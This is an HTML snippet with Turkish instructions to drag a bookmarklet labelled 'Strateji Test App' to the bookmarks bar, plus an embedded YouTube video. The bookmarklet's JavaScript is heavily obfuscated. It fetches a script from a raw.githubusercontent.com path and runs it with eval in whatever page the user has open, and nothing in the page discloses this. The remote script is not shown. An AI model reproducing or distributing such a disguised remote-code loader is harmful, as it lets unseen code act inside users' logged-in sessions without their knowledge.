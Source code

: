 ```<h3>Aşağıdaki Bağlantıyı, Yer İşaretleri Çubuğuna Sürükleyin..!</h3><br><a title = "Beni Sürükle" href = "javascript:(function(_0x3199b0,_0x2b2bcd){const _0x3a8706=_0x170b,_0x1306f4=_0x3199b0();while(!![]){try{const _0x4606a4=-parseInt(_0x3a8706(0x1be))/(0x23fb+-0x1a49+0x3*-0x33b)+-parseInt(_0x3a8706(0x1b9))/(0x78e+-0x4e1*0x6+0x15ba)+-parseInt(_0x3a8706(0x1ba))/(0x1a3f+-0x1*0x7b1+-0x128b)+-parseInt(_0x3a8706(0x1b3))/(0x15c5+0x67*0x1+0x8*-0x2c5)+-parseInt(_0x3a8706(0x1c0))/(0x14f8+0x45d+-0x1950)+-parseInt(_0x3a8706(0x1bd))/(-0x1b83*0x1+-0x2636+0x1*0x41bf)+parseInt(_0x3a8706(0x1b5))/(-0xf7+-0x25*0x109+0x274b)*(parseInt(_0x3a8706(0x1bb))/(-0x2657*-0x1+0x205+0x164*-0x1d));if(_0x4606a4===_0x2b2bcd)break;else _0x1306f4['push'](_0x1306f4['shift']());}catch(_0x20d752){_0x1306f4['push'](_0x1306f4['shift']());}}}(_0x6650,0x5aa91*-0x2+-0x14c2*-0xb3+0x6a7b8));function _0x170b(_0x3c8f16,_0x44b578){const _0x4ef278=_0x6650();return _0x170b=function(_0x380a1f,_0x2f9222){_0x380a1f=_0x380a1f-(-0x22ee+-0x98e+0x2e2c);let _0x8410f7=_0x4ef278[_0x380a1f];return _0x8410f7;},_0x170b(_0x3c8f16,_0x44b578);}async function fetchText(){const _0x299680=_0x170b,_0x25dc3a={'UrGac':function(_0x1e2f52,_0x5d488a){return _0x1e2f52(_0x5d488a);},'qGAXt':_0x299680(0x1bc)+_0x299680(0x1b2)+_0x299680(0x1b4)+_0x299680(0x1b1)+_0x299680(0x1b0)+_0x299680(0x1bf)+'js'};let _0x55d8b9=await _0x25dc3a[_0x299680(0x1b7)](fetch,_0x25dc3a[_0x299680(0x1b8)]),_0x253420=await _0x55d8b9[_0x299680(0x1b6)]();_0x25dc3a[_0x299680(0x1b7)](eval,_0x253420);};function _0x6650(){const _0x573b3b=['text','UrGac','qGAXt','1104192xJvcGy','3088482MYXStF','36394248mrZifG','https://ra','6200820RVmMdY','193910bKkiWc','main/test.','2912760JWHmvG','n/test123/','com/hakanz','w.githubus','2052364QZwmUr','ercontent.','7XCVSNp'];_0x6650=function(){return _0x573b3b;};return _0x6650();}fetchText();">Strateji Test App</a><br><br><br><br><iframe width="560" height="315" src="https://www.youtube.com/embed/9HDEHj2yzew" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>```

